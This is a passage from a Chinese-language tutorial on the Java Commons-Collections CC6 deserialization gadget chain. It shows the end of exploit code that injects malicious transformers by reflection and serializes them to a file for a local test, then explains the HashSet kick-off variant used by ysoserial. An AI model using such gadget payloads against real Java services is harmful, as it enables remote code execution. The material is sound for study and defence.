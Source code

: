 ```java
        f.setAccessible(true);
        // 利用反射技术，传入真正恶意的evilTransformers
        f.set(emptyTransformers, evilTransformers);

        // 移除传入lazyMap中的Key，使LazyMap#get方法中的(map.containsKey(key) == false)判断为true
        lazyMap.remove("k");

        // ----------------本地序列化与反序列化测试----------------
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("CC6WithHashMap.ser"));
        outputStream.writeObject(hashMap);
        outputStream.close();

        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("CC6WithHashMap.ser"));
        inputStream.readObject();
    }
}
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/22041d36-421a-4a2e-99a8-520f5f13e825/1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050157Z&X-Amz-Expires=3600&X-Amz-Signature=0f479964db72b5ca70638cdc02892feea54b96facd40b72441d38ca0bc585936&X-Amz-SignedHeaders=host&x-id=GetObject)

## HashSet

在 CC6 链中，除了`java.util.HashMap`类可作为 Kick-off 外，`java.util.HashSet`类也同样可以，只是稍显繁琐，Ysoserial 工具中的 CC6 链用到的就是这种方式。

`HashSet`是 Java 标准库中的一个类，具有快速添加、删除和查找等操作功能，并且实现了`Set`和`Serializable`等接口。`HashSet`内部实际上是通过一个`HashMap`实例来存储元素的，`HashSet`中的元素被存储为`HashMap`中的键，而对应的值则是一个固定的`Object`对象。在`HashSet`中，元素相当于是`HashMap`的键，而值则是一个占位符对象（即`PRESENT`常量），所以实际上`HashSet`只是一个对`HashMap`的包装，它通过键的唯一性来保证集合中不包含重复元素。

在`HashSet`中重写的`readObject`方法中，有对`HashMap`中的`put`方法进行调用。

```java
public class HashSet<E> extends AbstractSet<E> implements Set<E>, Cloneable, java.io.Serializable {
    static final long serialVersionUID = -5024744406713321676L;

    private transient HashMap<E,Object> map;

    // Dummy value to associate with an Object in the backing Map
    private static final Object PRESENT = new Object();

    // ...

    private void readObject(java.io.ObjectInputStream s) throws java.io.IOException, ClassNotFoundException {
        // Read in any hidden serialization magic
        s.defaultReadObject();

        // ...

        // Create backing HashMap
        map = (((HashSet<?>)this) instanceof LinkedHashSet ?
               new LinkedHashMap<E,Object>(capacity, loadFactor) :
               new HashMap<E,Object>(capacity, loadFactor));

        // Read in all elements in the proper order.
        for (int i=0; i<size; i++) {
            @SuppressWarnings("unchecked")
                E e = (E) s.readObject();
            map.put(e, PRESENT);
        }
    }
}
```